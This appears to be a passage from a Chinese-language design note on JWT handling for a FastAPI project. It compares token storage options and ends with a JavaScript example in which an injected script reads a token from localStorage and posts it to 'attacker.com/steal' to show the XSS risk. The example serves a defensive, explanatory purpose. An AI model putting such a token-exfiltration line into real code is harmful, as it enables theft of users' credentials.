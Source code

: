 #### 缺点
- ❌ **违反JWT无状态原则**（需服务端存储状态）
- ❌ **Phase 0不使用Redis** (spec.md明确要求)
- ❌ 需维护Redis集群（增加运维成本）
- ❌ Redis故障导致全部Token失效

#### 结论
**不推荐**：违反项目约束（Phase 0无Redis），且失去JWT无状态优势。

---

## FastAPI最佳实践调研

### 1. fastapi-users库推荐

fastapi-users是FastAPI社区最流行的用户认证库，其推荐方案：

- **默认配置**: access_token 1小时, refresh_token 7天
- **认证方式**: JWT Bearer Token
- **存储方式**: httpOnly Cookie (更安全) 或 Authorization Header

**不采用理由**: fastapi-users过于重量级（包含用户注册、邮箱验证等非必需功能），且项目需要自定义运营商账户模型。

### 2. OAuth2PasswordBearer + JWT实现

FastAPI官方推荐的轻量级方案，适合本项目：

```python
from fastapi import Depends, HTTPException
from fastapi.security import OAuth2PasswordBearer

oauth2_scheme = OAuth2PasswordBearer(tokenUrl="/auth/login")

async def get_current_user(token: str = Depends(oauth2_scheme)):
    # 验证token并返回用户
    ...
```

### 3. Token存储位置对比

| 存储方式 | XSS攻击防御 | CSRF攻击防御 | 跨域支持 | 推荐度 |
|---------|------------|-------------|---------|-------|
| localStorage | ❌ 易受攻击 | ✅ 免疫 | ✅ 简单 | ⚠️ 不推荐 |
| httpOnly Cookie | ✅ 免疫 | ❌ 需CSRF token | ⚠️ 需配置CORS | ✅ 推荐 |
| In-Memory (Redux/Vuex) | ✅ 免疫 | ✅ 免疫 | ✅ 简单 | ⚠️ 刷新丢失 |
| httpOnly Cookie (refresh) + Memory (access) | ✅ 最佳 | ⚠️ 需CSRF token | ⚠️ 需配置CORS | ⭐ 最推荐 |

**localStorage的致命缺陷**:
```javascript
// 任何注入的恶意脚本都可以读取Token
const stolenToken = localStorage.getItem('access_token');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});
```
